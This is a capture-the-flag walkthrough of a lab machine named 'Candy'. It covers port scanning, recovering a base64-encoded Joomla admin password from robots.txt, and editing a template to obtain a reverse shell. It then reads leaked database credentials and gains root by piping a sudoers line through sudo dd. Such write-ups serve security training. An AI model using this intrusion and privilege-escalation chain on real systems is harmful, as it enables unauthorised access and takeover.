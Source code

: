 ```yaml
---
sticker: lucide//candy
---
```


# Candy

## ENUMERATION

***

### OPEN PORTS

***

| PORT                         | SERVICE |
| ---------------------------- | ------- |
| 80                           | HTTP    |
| We can get this in the scan: |         |

```
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 17 disallowed entries
| /joomla/administrator/ /administrator/ /api/ /bin/
| /cache/ /cli/ /components/ /includes/ /installation/
| /language/ /layouts/ /un_caramelo /libraries/ /logs/ /modules/
|_/plugins/ /tmp/
|_http-title: Home
|_http-favicon: Unknown favicon MD5: 1B6942E22443109DAEA739524AB74123
|_http-generator: Joomla! - Open Source Content Management
```

Let's begin reconnaissance.

## RECONNAISSANCE

***

By looking at the scan we can check the entrance to `/robots.txt` is enabled, let's check it out:

![](gitbook/cybersecurity/images/Pasted%20image%2020250306160644.png)

We got credentials and new entries, let's check the `/administrator` one:

```
admin:c2FubHVpczEyMzQ1
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250306160959.png)

If we try logging into the panel with those credentials, we are unable to do so, that's because the password is encoded using Base64, let's decode:

```bash
echo 'c2FubHVpczEyMzQ1' | base64 -d
sanluis12345
```

So, the correct credentials are:

```
admin:sanluis12345
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250306161139.png)

We are now inside the admin panel, let's look around for a way to get a shell.

## EXPLOITATION

***

After exploring the application for a while, we can check the following:

![](gitbook/cybersecurity/images/Pasted%20image%2020250306161614.png)

We got administrator templates, let's check it out:

![](gitbook/cybersecurity/images/Pasted%20image%2020250306161640.png)

We can modify files, let's try uploading a reverse shell in `/index.php`, once uploaded, start a listener and save the changes:

![](gitbook/cybersecurity/images/Pasted%20image%2020250306161839.png)

We got our shell, let's stabilize it:

1. python -c 'import pty;pty.spawn("/bin/bash")'
2. /usr/bin/script -qc /bin/bash /dev/null
3. CTRL + Z
4. stty raw -echo; fg
5. reset xterm
6. export TERM=xterm
7. export BASH=bash

![](gitbook/cybersecurity/images/Pasted%20image%2020250306162017.png)

Nice, now let's look for a way to get root access.

## PRIVILEGE ESCALATION

***

We can use linpeas first:

![](gitbook/cybersecurity/images/Pasted%20image%2020250306162512.png)

We found a user with a console: `luisillo`, we can also find this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250306162629.png)

We got a backups folder, let's check it out:

```
www-data@ce239478bbd9:/var/backups/hidden$ ls
otro_caramelo.txt
```

Let's read the file:

```
www-data@ce239478bbd9:/var/backups/hidden$ cat otro_caramelo.txt

Aqui esta su caramelo Joven :)

<?php
// Información sensible
$db_host = 'localhost';
$db_user = 'luisillo';
$db_pass = 'luisillosuperpassword';
$db_name = 'joomla_db';

// Código de conexión a la base de datos
function connectToDatabase() {
    global $db_host, $db_user, $db_pass, $db_name;
    $conn = new mysqli($db_host, $db_user, $db_pass, $db_name);
    if ($conn->connect_error) {
        die("Conexión fallida: " . $conn->connect_error);
    }
    return $conn;
}

// Información adicional
echo "Bienvenido a Joomla en línea!";
?>
```

We got credentials for `luisillo`, let's switch and check the permissions of this user:

```
luisillo@ce239478bbd9:~$ sudo -l
Matching Defaults entries for luisillo on ce239478bbd9:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User luisillo may run the following commands on ce239478bbd9:
    (ALL) NOPASSWD: /bin/dd
```

We can check this binary in gtfobins:

![](gitbook/cybersecurity/images/Pasted%20image%2020250306162918.png)

So, we can escalate privileges with the following:

```
echo "luisillo ALL=(ALL:ALL) ALL" | sudo /bin/dd of=/etc/sudoers
```

What we did in here was to edit the `sudoers` file to enable `luisillo` to execute any command while using sudo, let's try:

![](gitbook/cybersecurity/images/Pasted%20image%2020250306163315.png)

Just like that we got root access.
